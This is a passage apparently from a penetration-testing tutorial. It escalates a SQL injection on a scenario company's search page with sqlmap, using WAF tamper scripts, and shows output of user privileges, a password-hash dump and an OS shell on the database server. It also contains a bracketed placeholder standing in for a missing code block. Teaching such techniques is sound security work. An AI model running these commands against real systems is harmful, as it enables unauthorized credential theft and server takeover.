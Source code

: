 This reveals:

```
[INFO] database management system users privileges:
[*] 'research_user'@'%' [1]:
    privilege: SELECT
[*] 'research_user'@'%' [2]:
    privilege: INSERT
[*] 'research_user'@'%' [3]:
    privilege: UPDATE
```

You have read/write access but not administrative privileges. Test for privilege escalation opportunities:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --users \
       --passwords
```

This attempts to extract user accounts and password hashes for lateral movement within the database system.

### Operating System Command Execution Through Database

Many database systems allow command execution on the underlying operating system. This transforms database access into complete system compromise.

[PLACEHOLDER:CODE Name: Database-to-OS command execution testing. Purpose: Uses SQLMap to test for operating system command execution capabilities through database functions. Shows how database access can escalate to complete system compromise. Value: Medium.]

Test for operating system command execution:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --os-shell
```

If successful, this provides command execution on the database server:

```
[INFO] trying to get the back-end DBMS underlying operating system
[INFO] the back-end DBMS operating system is Linux
[INFO] going to use 'UNION' based injection
[INFO] trying to upload the file stager on '/tmp/sqlmap_shell_12345'
os-shell> whoami
castle_db_service

os-shell> ls /opt/castle/algorithms
argos_production_configs/
model_backups/
training_scripts/
deployment_keys/
```
